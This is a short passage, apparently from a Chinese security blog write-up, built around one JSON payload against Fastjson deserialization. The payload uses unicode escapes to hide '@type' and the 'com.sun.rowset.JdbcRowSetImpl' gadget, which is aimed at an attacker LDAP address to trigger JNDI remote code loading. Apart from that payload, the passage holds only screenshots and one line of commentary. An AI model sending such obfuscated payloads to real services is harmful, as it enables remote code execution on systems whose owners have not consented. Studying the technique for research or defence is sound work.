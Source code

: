 ```bash
{"username":{"@\u0074\u0079\u0070\u0065": "java.lang.Class","val":"com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"password":{"@\u0074\u0079\u0070\u0065": "com.sun.rowset.\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://127.0.0.1:6666/Evail","\u0061\u0075\u0074\u006f\u0043\u006f\u006d\u006d\u0069\u0074":true}}
```

[![](assets/1708870136-ed3f6f6bf75c57381f5aadf9ee8f4394.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121288.png)​

但是当时的提示如下

[![](assets/1708870136-9aaf339144a6f2d5c667a905a93d3dfd.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121901.png)​
